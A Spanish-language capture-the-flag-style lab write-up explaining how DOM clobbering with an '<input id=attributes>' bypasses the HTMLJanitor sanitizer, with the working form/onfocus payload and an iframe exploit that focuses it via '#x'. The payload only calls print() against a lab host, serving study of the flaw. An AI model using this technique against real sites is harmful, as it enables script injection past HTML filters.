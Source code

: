 ```yaml
---
layout: default
title: 7 - Clobbering DOM attributes to bypass HTML filters
---
```

https://www.youtube.com/watch?v=vgBAUvPJnT8

Si nos vamos al código de `htmlJanitor.js` vemos que se permite crear un form con id, por el contrario no nos deja meterle atributos, excepto el id.
El for itera sobre los atributos, los atributos permitidos son :

- Para la etiqueta `<input>`, solo los atributos `name`, `type`, y `value` están permitidos.
- Para la etiqueta `<form>`, solo el atributo `id` está permitido.
- Las etiquetas `<i>`, `<b>`, y `<p>` están permitidas, pero no se permiten atributos para estas

```javascript
let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});

// Sanitize attributes
      for (var a = 0; a < node.attributes.length; a += 1) {
        var attr = node.attributes[a];

        if (shouldRejectAttr(attr, allowedAttrs, node)) {
          node.removeAttribute(attr.name);
          // Shift the array to continue looping.
          a = a - 1;
        }
      }
```

```html
<form id=x tabindex=0 onfocus=print()><input id=attributes>
```


- **`<form id=x>`**: Crea un formulario con un `id="x"`. Este `id` será importante más adelante, ya que el atacante usará este `id` para forzar que el navegador enfoque este formulario.

- **`tabindex=0`**: El atributo `tabindex` se utiliza para controlar el orden de tabulación de los elementos. Un valor de `0` permite que el formulario pueda recibir foco (es decir, que el usuario o un script pueda enfocarlo).

- **`onfocus=print()`**: Este es un manejador de eventos que se ejecuta cuando el formulario recibe foco. En este caso, cuando el formulario es enfocado, se llama a la función `print()`, que abre el cuadro de diálogo de impresión del navegador.

- **`<input id=attributes>`**: Este `input` tiene un `id="attributes"`, lo que es clave para el ataque de clobbering.

**==La vulnerabilidad :==** Cuando el script accede a .attributes del objeto x realmente está accediendo a input y no está eliminando los atributos `tabindex=0 onfocus=print()`

Si cargamos la url del post y esperamos 500 ms , podemos modificar la url para que ponga foco en el elemento x y ejecute el print()

```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```


